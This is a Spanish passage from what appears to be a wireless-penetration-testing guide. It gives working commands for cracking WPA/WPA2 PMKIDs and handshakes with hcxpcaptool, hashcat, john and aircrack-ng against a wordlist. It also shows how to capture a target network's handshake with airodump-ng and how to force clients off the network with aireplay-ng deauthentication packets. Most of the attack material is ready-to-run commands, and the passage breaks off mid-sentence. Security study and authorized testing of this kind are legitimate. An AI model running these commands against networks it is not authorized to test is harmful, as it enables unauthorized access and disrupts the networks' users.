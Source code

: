 Los **PMKIDs capturados** se mostrarán en la **consola** y también se **guardarán** dentro de \_ **/tmp/attack.pcap**\_\
Ahora, convierte la captura al formato de **hashcat/john** y crackéalo:

```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Por favor, tenga en cuenta que el formato de un hash correcto contiene **4 partes**, como: `4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7566f6461666f6e65436f6e6e6563743034383131343838` Si el suyo **solo** contiene **3 partes**, entonces, es **inválido** (la captura de PMKID no fue válida).

Tenga en cuenta que `hcxdumptool` **también captura handshakes** (algo como esto aparecerá: **`MP:M1M2 RC:63258 EAPOLTIME:17091`**). Podría **transformar** los **handshakes** al formato de **hashcat**/**john** usando `cap2hccapx`

```bash
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
```

_He notado que algunos handshakes capturados con esta herramienta no pudieron ser descifrados incluso sabiendo la contraseña correcta. Recomendaría capturar handshakes también de manera tradicional si es posible, o capturar varios de ellos usando esta herramienta._

### Captura de handshakes

Un ataque a redes **WPA/WPA2** se puede ejecutar capturando un **handshake** y tratando de **crackear** la contraseña **offline**. Este proceso implica monitorear la comunicación de una red específica y **BSSID** en un **canal** particular. Aquí hay una guía simplificada:

1. Identifica el **BSSID**, **canal** y un **cliente conectado** de la red objetivo.
2. Usa `airodump-ng` para monitorear el tráfico de la red en el canal y BSSID especificados, con la esperanza de capturar un handshake. El comando se verá así:

```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```

3. Para aumentar la probabilidad de capturar un handshake, desconecte momentáneamente al cliente de la red para forzar una re-autenticación. Esto se puede hacer utilizando el comando `aireplay-ng`, que envía paquetes de desautenticación al cliente:

```bash
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, may not work in all scenarios
```

_Note que, como el cliente fue desautenticado, podría intentar conectarse a un AP diferente o, en otros casos, a una red diferente._

Una vez que en `airodump-ng` aparece información de handshake, esto significa que el handshake fue capturado y puedes dejar de escuchar:
